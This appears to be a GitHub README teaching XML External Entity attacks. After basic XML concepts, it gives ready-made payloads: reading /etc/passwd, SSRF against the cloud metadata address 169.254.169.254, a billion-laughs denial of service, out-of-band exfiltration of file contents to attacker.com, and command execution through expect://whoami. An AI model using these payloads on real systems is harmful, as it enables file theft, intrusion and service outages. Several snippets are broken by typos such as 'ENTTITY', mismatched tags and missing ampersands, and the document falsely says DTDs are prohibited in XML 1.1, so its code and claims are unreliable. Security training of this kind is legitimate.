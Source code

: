 ## INFO 

Before we look at XXE, let’s look into few XML Basics which helps us to understand the main concepts behind XXE

## WHAT IS XXE 

XML stands for Extensible Markup Language, that defines a set of rules for encoding documents in a format that is both human-readable and machine-readable,
and the current version is 1.0.

## Design Goals of XML:

1. Easy processing across the internet.
2. Clear
3. Easy to create

## Some Code of XML:

    <?xml version=”1.0” encoding=”UTF-8”?> 
    <plane>
      <year> 1977 </year>
      <make> Cessna </make>
      <mode> Skyhawk </mode>
      <color> Light Blue and White </color>
    </plane>
    
 ## XML Parser
 
 Say, you have an XML document and your application needs to process the document, 
 the part of processing the XML is called XML Parser and parser tried to parse the document which allows your application to use the parsed values.
 
 ## Document Type Definition (DTD)
 
 This is an optional part of XML but it is part of the XML standard itself. DTD provides a grammar for a class of documents, which can contain markup  declarations which define the structure for a document and can also contain Entities. [note: DTD are prohibited from version 1.1]
 
 ## Entities
 
 These can be seen as a placeholder for variables which comes in
1. Regular Entities: Text substitution, where instead of adding text we can add a reference to the entity.
2. Predefined Entities: This is part of the XML standard.
3. External Entities: A placeholder that can point to internal and external resources.

## Some Code Explane How Vulnerablity Works

    <?xml version=”1.0” encoding=”UTF-8”?>
    <!DOCTYPE Vulnerability [ #DTD Decleration
    <!ENTITY xxe “XXE”> #Entity Decleration
    ]>
    <Vulnerability>
    &xxe; #Reference to entity
    </Vulnerability>

## XML Validation

In this process, we generally validate the well-formedness where we check the syntax but not validate whether it is a valid instance of the included DTD.

Tools we can use to validate an XML file are xmllint and xmlstarlet.

## Common places to search for?

XML file upload (e.g confing files)

XML input fields

XML based Apis

XML based file (RSS,SVG,CSS)

Ms Office files (docx,xlsx,etc.)

SAML-based SSO

VoiceXML in IVR systems

Online MAP editors using KML

## ATTACK TYPE 

1. Classic XXE
2. Server Side Request Forgery
3. Denial of Service 
4. Advanced XXE 
5. Remote Code Execution

##  Classic XXE

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [<!ENTTITY asif SYSTEM "file:///etc/passwd"> ]>
    <userInfo>
    <FirstName>Khan</firstName>
    <lastName>&asif;</lastName>
    </userInfo>
    
 ## OUTPUT 
 Hello Khan root:x:0:0:root....
 .......
 ''''''
 
This is Vulnerability
    
## Server Side Request Forgery

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [<!ENTTITY asif SYSTEM "https://169.254.169.254"> ]>
    <userInfo>
    <FirstName>Khan</firstName>
    <lastName>&asif;</lastName>
    </userInfo>

 ## OUTPUT
 
 Hello asif 1.0
 2007-01-09
 2007-03-01
 .......
 ''''''

## Denial of Service 

     <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE lolz [<!ENTITY lol "lol><!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5">
<!ENTITY lol7 "&lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8">
<tag>&lol9;</tag>


 ## Advanced XXE 
 
 1.Also Known as Blind XXE 
 2.Out of band data exfiltration 
 
 The Payload to Upload/Send
 
     <!DOCTYPE roottag [
     <!ENTITY % file SYSTEM "file:///etc/passwd">
     <!ENTITY % dtd SYSTEM "http://attacker.com/host.dtd">
     %dtd;]>
     <roottag>&send;</roottag>
     
     Content of host.dtd
     <!ENTITY % all "<!ENTITY send SYSTEM "http://attacker.com/collect.php?file=%file;'>">
     %all;
 
 ## Remote Code Execution 
 
 In Some rare cases XXE can be elevated to executed system commands on the server 
 
 SAMPLE paylod: 
 
     <!DOCTYPE replace [<!ENTITY ent SYSTEM "expect://whoami"> ]>
     
 ## TOOLS
 
 Burpsuite
    
     Intercepting Proxy 
     
  Xxeserv 
  
     A mini webserver with FTP support for XXE paylods 
     
  OXML_xxe
  
     A tool for embedding XXE/XML exploits into different filetypes
     
 ## Impact when exploited:
 
 1. Information Disclosure by reading local files and parsing errors.
 2. Denial of Service.
 3. External Requests which can also be called as SSRF.
 4. Data exfiltration using Out of Band approach.
 5. Remote Code Execution.
 
 
